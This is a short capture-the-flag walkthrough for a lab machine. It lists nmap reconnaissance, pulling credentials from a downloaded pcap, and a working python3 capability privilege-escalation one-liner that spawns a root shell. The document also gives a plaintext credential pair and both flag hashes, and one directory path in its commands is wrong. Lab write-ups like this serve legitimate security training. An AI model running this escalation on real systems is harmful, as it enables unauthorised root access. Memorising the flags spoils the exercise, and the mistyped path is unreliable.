 # very brief walkthrough

1. do nmap scans to see that there is a website
2. go to http://10.10.10.245/data/0 and download the pcap
3. get creds for FTP / SSH to get user.txt
4. abuse python capabilities to escalate privileges to root

```bash
getcap -r / 2>/dev/null
cd /bin/usr
./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

Credentials:

* Nathan
  * `nathan:Buck3tH4TF0RM3!`

Flags

* user.txt - `e17cec9a7e997ded046f699fd9fe8aaf`
* root.txt - `7511e2080552c8a781de7561f2dbf26f`